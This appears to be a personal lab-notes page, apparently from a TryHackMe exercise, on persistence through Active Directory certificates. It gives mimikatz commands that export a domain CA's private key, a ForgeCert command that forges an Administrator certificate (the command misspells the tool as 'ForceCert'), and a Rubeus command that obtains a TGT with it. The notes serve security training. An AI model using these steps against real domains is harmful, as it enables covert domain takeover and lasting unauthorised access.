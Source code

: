 ```yaml
---
category: Uncategorized
tags: []
---
```

#mimikatz #rubeus 
- We can use certificates to maintain persistence
- Valid certificate can be used for client authentication to get TGT.
- To prevent this form persistence, blue team needs to revoke the certificate. This is the only way to defend.
# Exploitation
- We need to get the private key of the root CA's certificate, after which we can create our own certificate.
- Usually the key is protected by the HSM (Hardware Security Module).
- If HSM is not used, [DPAPI](../../Windows/Windows%20Internals/Uncategorized/DPAPI.md) is used. In such case we can use mimikatz and other tools.
- List certificates stored on the Domain Controller using mimikatz
```powershell
crypto::certificates /systemstore:local_machine
```
- Patching to make the private key exportable
```powershell
privilege::debug
crypto::capi
crypto::cng
```
- Exporting the certificates now
```powershell
crypto::certificates /systemstore:local_machine
# this will export the certificate in .der and .pfx format
# password for these CA cert is "mimikatz"
```
- Now we can sign our own certificate using the `ForgeCert.exe` tool.
```powershell
.\ForceCert.exe --CaCertPath ca-cert.pfx --CaCertPassword mimikatz --Subject CN=User --SubjectAltName Administrator@za.tryhackme.loc --NewCertPath fullAdmin.pfx --NewCertPassword Passw0rd123
```
- The new certificate can be used to ask for a TGT from the domain controller
```powershell
Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:fullAdmin.pfx /password:Passw0rd123 /outfile:tgt.kirbi /domain:za.tryhackme.loc /dc:10.10.10.10
```